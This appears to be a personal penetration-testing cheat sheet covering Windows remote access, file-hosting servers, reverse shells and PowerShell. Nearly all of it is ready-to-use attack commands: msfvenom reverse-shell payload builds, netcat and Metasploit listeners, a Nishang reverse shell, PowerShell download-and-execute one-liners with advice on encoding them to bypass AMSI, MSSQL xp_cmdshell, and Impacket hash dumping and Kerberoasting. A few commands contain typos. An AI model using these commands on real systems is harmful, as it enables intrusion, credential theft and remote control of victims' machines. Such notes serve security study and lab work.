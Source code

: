# Remote Access
```
evil-winrm -i {IP} -u {username} -p {password/NTLM hash}

upload {local_filename} {destination_filename (optional)}
download {remote_filename} {destination_filename (optional)}

xfreerdp /v:{IP address} /cert:ignore /u:{USERNAME}
```
> evil win-rm
> only for windows pro or windows with RDP!!! >.<
> powershell commands can be executed

# Hosting Servers

## HTTP server
```
python3 -m http.server 80
```
> make sure to be in the directory of the server
> --directory can be used

## SMB server
```
sudo smbserver {share name} -username user -password password

net use \\{IP}\{share name} /user:user password

```
> -smb2support might be needed for some windows

## SMB 
```
smbclient -L //(IP)/{share name} 
get > download {filename}
get > uppload {filename}
smbclient -L //{IP}
```

# Reverse Shells

## Listening port
> port 1234, 4444
```
nc -lvnp 4444
rlwrap nc -lvnp 4444

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
> rlwrap allows users to use previous commands 


## Msfvenom
>Take note anything with meterpreter is for msfconsole multihandler

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
```
> windows .exe & .dll

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
```
> linux

## Nishang 
```
import-module Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress {LHOST} -Port 4444
```

# Powershell 

## Downloading files
```
powershell.exe IEX (New-Object Net.WebClient).DownloadString("{IP/website url}")
```
> download and execute 
> you can encode using https://amsi.fail/ to bypass

```
IEX((New-Object Net.WebClient).DownloadString("{IP/website url}"))
```
> download
> you can encode using https://raikia.com/tool-powershell-encoder/ to bypass

```
powershell.exe -e 
```
> execute using powershell 
> e.g. powershell.exe -e (encoded stuff)


## check OS version
```
[Environment]::Is64BitProcess
(Get-WmiObject Win32_OperatingSystem).OSArchitecture
```
> checking OS architecture 


## MSSQL
```
enable_xp_cmdshell
EXEC xp+cmdshell '{command}'
```
> summons interactive shell / cmd for MSSQL


# Impacket

## Hash dump
```
secretsdump.py '{username}@{IP}'
```
> hash dump 

## Kerberoasting + hash via SPN
```
GetUserSPNs.py -request -{NETBIOSNAME}-ip {IP} {DOMAIN}/{NAME}:{PASSWORD}
```
> - hash dump via keberoasting using SPN
> - Need to hashcat to unveil the hash. Refer to bruteforce on usage
## MS sql logon 
```
mssqlclient.py {username}@{IP}
```
